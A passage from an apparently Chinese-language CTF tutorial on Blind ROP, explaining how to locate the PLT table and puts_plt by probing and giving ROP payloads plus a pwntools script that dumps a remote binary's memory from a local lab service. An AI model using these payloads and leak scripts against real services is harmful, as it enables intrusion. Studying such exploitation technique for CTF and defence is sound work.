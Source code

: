 #### 寻找PLT表

寻找`plt`表的目的是，找出其中的`write_plt`或者是`puts_plt`等便于我们使用。

来看看`plt`表：

![image-20221210211419513](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202212102114754.png)

我们知道`plt`表中的三行，第一行是去`got`表查看（假如`got`表还没有，就是跳到下一行），第二三行是查找地址的意思。字节数可以看到分别是六字节、五字节、五字节，加起来十六字节。

每一个`plt`表项是16字节。因此，假如发现了**一系列的**长度为16的没有使得程序崩溃的代码段，那么很有可能遇到了`plt`表。此外，还可以通过前后偏移6字节来判断出于`plt`表中间还是出于开头（可以看到前6个字节是第一行，也就是去找`got`，因此在开头的话偏移6个字节是不会崩溃的）。

只要找到了`plt`表，我们遍历`plt`表即可获得里面的函数地址。

找到`puts(param1)`是比较简单的，如下面的`payload`：

```python
payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

若`addr`处是`puts`函数，那么将会输出`0x400000`处的7个非零字节（`\x7fELF`）。

这里补充写一下，假**如`puts_plt`是`plt`表中的第一个函数，那么在`puts_plt`之前的地址开始调用，也可能会调用到`puts`**。怎么找到`puts_plt`的开头地址呢？

可以使用两个`payload`，一个是上面那个，另一个是：

```python
payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr+6)+p64(stop_gadget)
```

只要两个`payload`都会输出`\x7fELF`，那么说明肯定此时`addr`就是`put_plt`开头了。

而`write(file* fp, param2, param3)`的第一个参数是文件描述符，我们需要找到文件描述符的值。这个比较麻烦，`wiki`上面是这么说的：

![image-20221210212904866](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202212102129783.png)

到这里，我们已经可以控制输出函数，那么我们便可以输出`.text`段的其它内容或者是其它`gadgets`，并找到其他函数，以便于完成攻击。

另一个常用思路是，根据获取的`puts`等`plt`表函数获取`got`表的内容，然后依次以此泄露`libc`版本来使用其他函数。使用`puts_plt`将从`0x400000`开始的`1k`个字节全部保存到文件，然后使用`ida`反编译即可查看。这里写一下代码和效果：

```python
def leak(length, pop_rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 10001)
    payload = length*b'a' + p64(pop_rdi_ret) + p64(leak_addr) + p64(puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        if b'WelCome' in data:
            data = data[:data.index(b"\nWelCome")]
        else:
            data = data
        if data == b"":
            data = b'\x00'
        return data
    except Exception:
        sh.close()
        info('failure in {}'.format(leak_addr))
        return None
    
if __name__ == '__main__':
    result = b""
    addr = 0x400000
    while addr < 0x401000:
        info("starting to deal {}".format(hex(addr)))
        data = leak(length, pop_rdi_ret, puts_addr, addr,stop_gadget)
        if data is None:
            continue
```